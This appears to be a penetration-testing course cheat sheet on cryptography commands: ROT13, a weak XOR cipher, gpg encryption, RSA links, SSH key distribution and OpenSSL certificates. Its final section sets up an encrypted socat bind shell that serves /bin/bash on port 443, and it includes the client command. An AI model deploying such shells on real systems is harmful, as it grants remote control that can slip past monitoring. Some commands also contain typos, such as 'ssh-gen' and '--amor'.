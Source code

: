 # ROT13 Substitution Cipher
* Special case of Cesar Chiffre
* Substitute A-Z by rotation of 13 starting with N
* Translate or delete chars https://linux.die.net/man/1/tr

```bash
echo text to encrypt | tr 'A-Za-z' 'N-ZA-Mn-za-m'
echo grkg gb rapelcg | tr 'A-Za-z' 'N-ZA-Mn-za-m'
```

# Weak XOR Stream Cipher
* key len is not equal to message
* message is a string not a bytearray

```python
#!/usr/bin/python3
import base64
from itertools import cycle 

key = 'K'.encode()
message = 'text to encrypt ЖИЛ'.encode()

encrypted = bytearray()
for m,k in zip (message, cycle(key)):
    encrypted.append(m^k)
print(f'Encrypted: {base64.b64encode(encrypted).decode()}')

decrypted = bytearray()
for c,k in zip (encrypted, cycle(key)):
    decrypted.append(c^k)
print(f'Decrypted: {decrypted.decode()}')
```

# Symmetric Block Cipher
* http://irtfweb.ifa.hawaii.edu/~lockhart/gpg/
* Secure because requires 64 bits blocks
* Use gpg to encrypt data with secret key
* List --cipher-algo with gpg --version
* -c, --symmetric with passphrase
* -d, --decrypt
* --output file

```bash
echo "Symmetric encryption." > msg
gpg -c --cipher-algo aes256 msg
gpg -c --cipher-algo twofish msg
gpg -d msg.gpg
file msg.gpg
```
# Asymmetric Cipher
* Use gpg to encrypt data with public key
* --amor ascii output instead of binary

```bash
# import keys to keyring
gpg --import pub.asc
gpg --import private.asc
```

```bash
echo "Asymmetric encryption." > msg
gpg --gen-key
gpg --output pub.asc --amor --export user@email.com
gpg --recipient Offsec --encrypt msg
gpg -d msg.gpg
```

# RSA Number Factorization
* Online RSA Calculators
* https://www.alpertron.com.ar/ECM.htm
* https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSA_Express_EncryptDecrypt_v2.html
* https://www.cs.drexel.edu/~jpopyack/Courses/CSP/Fa17/notes/10.1_Cryptography/RSAWorksheetv4e.html

# SSH Key Generation and Distribution
* Distribute key to authorized_keys file

```bash
ssh-gen
ssh-copy-id -i /home/kali/.ssh/id_rsa.pub user@remote
ssh -i /home/kali/.ssh/id_rsa.pub user@remote
scp -i /home/kali/.ssh/id_rsa path-to-file user@remote:/tmp/
```

# OpenSSL Key Generation
* -newkey Generate new key instead algorithm
* -x509 Output an X.509 certificate structure instead of a cert request
* -nodes Deprecated to no encrypt private key 
* -noenc No encrypt private key

```bash
openssl req -newkey rsa:2048 -noenc -keyout bind_shell.key -x509 -days 45 -out bind_shell.crt
```

# SOCAT OpenSSL encrypted Bind-Shell
* use x509 cert to encrypt connection to bindshell listener
* verify=0 tells socat to not to check the client's certificate.
* fork spawn a child process
* EXEC:/bin/bash 


```bash
cat bind_shell.key bind_shell.crt > bind_shell.pem
sudo socat OPENSSL-LISTEN:443,cert=bind_shell.pem,verify=0,fork EXEC:/bin/bash
# client without cert and verification
socat - OPENSSL:remote:443,verify=0
```